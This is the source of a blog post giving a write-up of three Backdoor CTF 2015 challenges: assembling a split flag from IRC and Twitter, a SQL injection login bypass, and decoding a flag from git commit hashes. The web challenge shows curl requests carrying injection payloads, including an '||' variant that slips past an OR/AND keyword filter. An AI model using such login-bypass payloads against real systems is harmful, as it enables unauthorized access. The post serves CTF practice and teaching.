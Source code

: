 ```yaml
---
layout: post
title: Backdoor CTF 2015 - WriteUP
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - evi1m0</p>

#### FOLLOW / WEB10

> Get the first half of flag @BackdoorCtf and other at #backdoorctf15 on irc.freenode.org. Join them and submit sha-256 of the flag.

- @twitter
- irc [backdoorctf15]

Connect the IRC channel, Receive tips: 

[BackdoorCTF 2015. Flag's second part: d68e69f3bbebbb346d338cdf937009ba3c69e5bea60158de2d47da09574f9342. Challenges would always remain online at https://backdoor.sdslabs.co/challenges]

But, This is the second part, I started looking for the first part, twitter?

I found this tweet: [https://twitter.com/BackdoorCTF/status/570822175420129280](https://twitter.com/BackdoorCTF/status/570822175420129280)

I will be the two strings together:

 - 2041615da55336e54cae0692663c2cf35aaa33188c6fa68c56a813f878d9a24d
 - d68e69f3bbebbb346d338cdf937009ba3c69e5bea60158de2d47da09574f9342
 
Flag is the sha256 format:

    >>> import hashlib
    >>> foo = '2041615da55336e54cae0692663c2cf35aaa33188c6fa68c56a813f878d9a24dd68e69f3bbebbb346d338cdf937009ba3c69e5bea60158de2d47da09574f9342'
    >>> print hashlib.sha256(foo).hexdigest()
    14405472874fddf3f051a9085d6c3f559f2804363776e06f2c4afe08e55cd918
    
#### JUDGE / WEB150

> Get the flag from [JUDGE](https://hack.bckdr.in/JUDGE). Submit sha-256 of the flag obtained.

<center><img src="http://ww2.sinaimg.cn/large/c334041btw1eqsr33roxaj20a0035mx8.jpg"></center>

Need to log into admin, Maybe SQL-Injection? But, keywords like OR and AND are filtered.

    ➜  ~  curl http://hack.bckdr.in/JUDGE/index.php --data "username=admin' or '1'='1&password=123456"
    <!DOCTYPE html>

    <html>

    <head>
    <title>Login</title>
    </head>

    <body>
    An Error occured
    
I think the use of ```'||'``` instead of 'or':

    ➜  ~  curl http://hack.bckdr.in/JUDGE/index.php --data "username=admin'||'1&password=123456"

<center><img src="http://ww2.sinaimg.cn/large/c334041btw1eqsr7h0re0j20rz0e6tao.jpg"></center>

Simple bypass WAF :)

#### TIM / forensics100

> Visit https://github.com/backdoor-ctf/TIM to get the flag.

I think it is simple, but I was wrong. He gave us a git repository, repo README.md:

 - ..................................
 - Download this repo to get the flag

<center><img src="http://ww3.sinaimg.cn/large/c334041btw1eqsrg0l92ej20s20jowha.jpg"></center>

Interesting rules:

 - commits 47
 - commits 41
 - commits 4c
 - commits 46
 - ...
 
Join these and we get:

    47414c4620316168732074696d6d6f63206863616520666f2073726574636172616863206f7774207473726966206e696f4a

Convert ASCII to text:

    GALF 1ahs timmoc hcae fo sretcarahc owt tsrif nioJ

The Python string reversal:

<center><img src="http://ww1.sinaimg.cn/large/c334041btw1eqsrsqu4w8j20ef03ngm3.jpg"></center>

Github TIM commits log:

    0075376f5b95ab02608746da37cd7bfa54ccbc89
    00ba12f761b4b630edd4b09ebf28a5f4b0bf00ac
    009daea0f203c4c5e968cf4f4dd0b30cd241105c
    004c8ec471a5e9f8177eac3cabea75b6a1b34d60
    00a0913f7281b805f14f220d422e253ad5e17d91
    003cd8f7c9f44e5ef914a23b89683381261aeb1a
    000bd360dd30bef0952dc5e78d0552acbb77cc28
    0084948308ac5f84d2f15df4010926968d4ea4fb
    0068a486c186d9e38e51f87720a0dd65c3e8384d
    75ae4979ffbb663dbc665495cf892e108114adcd
    ..............
    ..............
    ..............
    
The first two byte of each SHA1 commit and concatenate. Flag:

    000000000000000000759f0a868bfc80f44******************************fe7eef1dd6705000000000000000000d4
    
